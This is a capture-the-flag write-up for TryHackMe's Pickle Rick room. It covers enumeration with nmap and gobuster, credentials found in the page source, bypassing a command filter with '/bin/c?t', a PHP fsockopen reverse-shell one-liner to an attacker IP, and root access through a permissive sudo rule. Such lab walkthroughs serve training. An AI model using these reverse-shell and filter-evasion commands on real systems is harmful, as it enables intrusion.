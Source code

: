 # Writeup Pickle Rick challenge (THM)

![logo_machine](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

The following challenge is hosted by TryHackMe and aims at exploiting a web server in order to find three ingredients in order to help Rick, who wants to create a potion.
Let's begin.

## Target enumeration

As usual, we start analyzing the target by launching *nmap* command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
As a result we obtain that ports 22 (ssh) and 80 (http) are open.

Let's examine the website.

## Website

Inspecting the source code, we immediately find this comment:

*Note to self, remember username! Username: R1ckRul3s*

So, we jot down the username *R1ckRul3s*.

In the */robots.txt* page we find a mysterious string, i.e.: *Wubbalubbadubdub*.

If we try to connect to port 22 (ssh) using as username R1ckRul3s and as password Wubbalubbadubdub doesn't work (permission denied), so we need to discover where these credentials can be used.
So, we launch *gobuster* in order to discover other potential paths, we the following command (note the *x* option, where we look for files with php extension, too):

```
gobuster -w <path/to/wordlist/>directory-list-2.3-small.txt -u http://<target_ip>/ -t 20 -x php
```

As a result we obtain these paths:

* /login.php (Status: 200)
* /assets (Status: 301)
* /portal.php (Status: 302)


Yep! We found the place to insert the above-mentioned credentials: *login.php*.

![img3](/images/pickle_rick-thm/img3.png?raw=true)


## First ingredient

Once logged in, we land in a web page with a menu with some options on the top. The most interesting tab is *Commands*. Indeed, here we can find an input form, where we can run shell commands.

For example, if we type the ```ls``` command, we can get the following results:
* **Sup3rS3cretPickl3Ingred.txt**
* assets
* clue.txt
* denied.php
* index.html
* login.php
* portal.php
* robots.txt

Immediately, we notice the Sup3rS3cretPickl3Ingred.txt file. However, if we try to cat it, a filter is placed:

![img4](/images/pickle_rick-thm/img4.png?raw=true)


In order to bypass it, we used metacharacters for pattern matching ([link](https://www.linux.com/topic/desktop/introduction-regular-expressions-new-linux-users/)). For example, with this command we can retrieve the data in the file:

```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```

![img5](/images/pickle_rick-thm/img5.png?raw=true):

Great! First flag found.


## Second ingredient

In order to understand where we can find the second flag, let's read the clue we have just found using ```/bin/c?t clue.txt```; it states:

*Look around the file system for the other ingredient.*

So, we just need to look over the file system to get the next flag.

Then, if we enter in **/home/rick**, there is a file named *second ingredients* (```ls -l /home/rick```).

Let's cat it: 

```/bin/c?t "/home/rick/second ingredients"``` 

(get a look to this writeup I wrote for more regarding files with spaces in their name ;) [link](https://francevarotz98.github.io/2022/10/08/otw-bandit-writeup.html#level-2--3))


## Third ingredient

For the third, and last, ingredient I decided to create a reverse shell (even if it is not needed). In order to do so, in a terminal start listening to a port (e.g., port 7777); then, in the command panel insert the following command:

```
php -r '$sock=fsockopen("<YOUR_IP_address>",7777);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

and pressthee *execute* button.

![img6](/images/pickle_rick-thm/img6.png?raw=true)

Nice !! We have a rev shell!

Now, note that file 3rd.txt can only be read by root user.

Therefore, run ```sudo -l``` (see here [link](https://www.explainshell.com/explain?cmd=sudo+-l) for more about the *l* option in sudo command)
and this is what we are going to obtain:

```
$ sudo -l
<snip>
User www-data may run the following commands <snip>:
    (ALL) NOPASSWD: ALL
```

so: we can run all the commands as sudo in the whole file system !!!

Then:

![img7](/images/pickle_rick-thm/img7.png?raw=true)

3rd ingredient found ;)
